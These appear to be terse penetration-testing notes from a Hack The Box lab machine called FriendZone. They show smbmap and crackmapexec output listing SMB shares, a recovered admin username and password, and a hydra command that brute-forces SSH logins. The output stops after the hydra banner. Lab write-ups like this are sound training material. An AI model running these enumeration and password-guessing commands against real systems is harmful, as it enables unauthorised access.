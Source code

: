 

kali@kali:~/htb/boxes/friendzone/10.10.10.123$ smbmap -H 10.10.10.123
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        Development                                             READ, WRITE     FriendZone Samba Server Files
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))


![](2021-01-27-14-36-40.png)


creds for the admin THING:

admin:WORKWORKHhallelujah@#


kali@kali:~/htb/boxes/friendzone/10.10.10.123$ crackmapexec smb -u users.txt -p passwords.txt --shares 10.10.10.123
SMB         10.10.10.123    445    FRIENDZONE       [*] Windows 6.1 (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.10.123    445    FRIENDZONE       [+] \admin:WORKWORKHhallelujah@# 
SMB         10.10.10.123    445    FRIENDZONE       [+] Enumerated shares
SMB         10.10.10.123    445    FRIENDZONE       Share           Permissions     Remark
SMB         10.10.10.123    445    FRIENDZONE       -----           -----------     ------
SMB         10.10.10.123    445    FRIENDZONE       print$                          Printer Drivers
SMB         10.10.10.123    445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.10.10.123    445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))



kali@kali:~/htb/boxes/friendzone/10.10.10.123$ hydra -L users.txt -P passwords.txt ssh://10.10.10.123
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
